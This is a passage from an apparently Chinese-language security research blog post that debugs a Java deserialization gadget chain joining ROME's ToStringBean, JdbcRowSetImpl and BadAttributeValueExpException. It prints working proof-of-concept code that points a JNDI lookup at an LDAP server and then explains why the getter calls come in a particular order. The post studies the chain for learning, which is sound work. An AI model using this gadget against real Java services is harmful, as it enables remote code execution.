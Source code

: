 回到Rome，真的有可能走到我们想要的getter而不报错吗？调试一下Rome结合JdbcRowSetImpl的利用代码

```plain
public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:10990";
        jdbcRowset.setDataSourceName(url);

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowset);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
```

在`getDatabaseMetaData()`处下一个断点，得到调用栈[![](assets/1701606907-8fb021f69986e71ddf4f5b570cdab6c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210233-6f9d6318-6ced-1.png)

在ToStringBean#toString(String):137`Object value = pReadMethod.invoke(_obj,NO_PARAMS);` 处下个断点，观察`pReadMethod`

*   getQueryTimeout
*   getEscapeProcessing
*   getMaxFieldSize
*   **getDatabaseMetaData()**
*   .............

这个顺序又是怎么决定的呢，中间的过程很无聊，我就不详细说明了，感兴趣的师傅可以自己去调试一下，也没有多复杂

总之最终的调用顺序是按照一个`HashMap`转换而成的`Descriptor`（当成List就行）来的，而我们都知道HashMap是根据**键的哈希值**来确定存储顺序的（相当于随机了）
